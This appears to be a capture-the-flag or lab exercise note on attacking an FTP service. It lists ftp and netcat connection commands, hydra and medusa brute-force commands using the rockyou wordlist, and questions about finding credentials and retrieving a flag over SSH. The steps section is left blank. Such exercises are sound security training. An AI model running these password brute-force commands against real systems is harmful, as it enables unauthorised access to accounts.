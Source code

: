 ```ftp $TARGET_IP```
```nc -v $TARGET_IP $PORT```
```hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP```
```hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP```
```medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp```

## Questions:
1. What port is the FTP service running on? 

2. What username is available for the FTP server? 

3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

## Steps:
1. 